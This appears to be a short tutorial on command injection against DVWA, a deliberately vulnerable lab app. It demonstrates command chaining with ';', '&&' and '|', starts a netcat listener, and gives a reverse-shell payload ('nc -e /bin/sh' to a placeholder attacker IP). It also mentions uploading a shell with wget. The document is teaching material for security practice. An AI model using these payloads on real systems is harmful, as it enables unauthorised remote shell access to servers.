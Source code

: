 
# Command Injection

Command Injection attack is performed by using arbitrary commands(The command which helps the system to run for example the commands used to play around with the file management system).

## What can we do by using the Command Injection attack ?

1. We can get control over the shell or terminal of the server where the website is hosted.   
2. Can upload shell using wget command on the public platform which can be highly exploitable.  

## Performing attack on DVWA 

1. Changing the security level of DVWA to low level of security. 

![image](https://user-images.githubusercontent.com/60937657/194223462-0e43d07a-d6dd-4291-8777-f9c30ff0c9e2.png)

![image](https://user-images.githubusercontent.com/60937657/194223357-3a83b501-8961-4646-b043-efc1e4060faf.png)

2. Find the IP address using terminal. 

```
  ifconfig 
```

3. Enter IP address to DVWA.  

![image](https://user-images.githubusercontent.com/60937657/194224867-2863f530-e203-4c53-92bf-344421fb8116.png)

4. Performing arbitrary command.

**Note** We will use arbitrary commands using piping. 

**For Example** 

```
  ls ; pwd 
```
```
  ls && pwd 
```
```
#In this way of piping we will only be output of final command which in pwd in this case.
  ls | pwd 
```
![image](https://user-images.githubusercontent.com/60937657/194370933-c383fb1c-ca37-48d2-ba90-a91d5ae01d8c.png)

5. Make a connection in shell of website server with terminal of our machine by starting netcat services for linux based server 

Using the below given command in terminal.

```
nc -vv -l -p 8080
```

![image](https://user-images.githubusercontent.com/60937657/194373887-5eb2d874-5036-4779-b0e8-a3bd5dbcdf2e.png)

**Note** Netcat service will always be hosted in bin folder of linux as per the architecture

6. Using a command in which we are going to use IP of our OS to fire on website by which we are going to get a connection in out terminal. 

```
nc -e /bin/sh IP_Address_of_my_OS 8080
```

![image](https://user-images.githubusercontent.com/60937657/194376389-1efd866c-c799-491e-8f69-ea807c39928c.png)





